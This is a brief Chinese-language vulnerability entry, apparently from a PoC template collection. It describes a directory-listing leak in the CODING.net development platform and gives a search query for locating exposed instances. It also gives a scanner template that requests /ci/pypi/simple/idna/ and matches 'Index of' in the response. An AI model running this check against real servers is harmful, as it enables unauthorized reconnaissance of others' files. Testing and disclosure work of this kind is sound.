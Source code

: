  CODing.net是一个面向开发者的云端开发平台，提供 Git/SVN 代码托管、任务管理，在idna存在目录泄露漏洞，攻击者可获取目录文件信息。

检索条件: title="一站式软件研发管理平台"

poc

```
relative: req0
session: false
requests:
- method: GET
timeout: 10
path: /ci/pypi/simple/idna/
headers:
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.2786.81 Safari/537.36
follow_redirects: true
matches: (code.eq("200") && body.contains("Index of"))
```

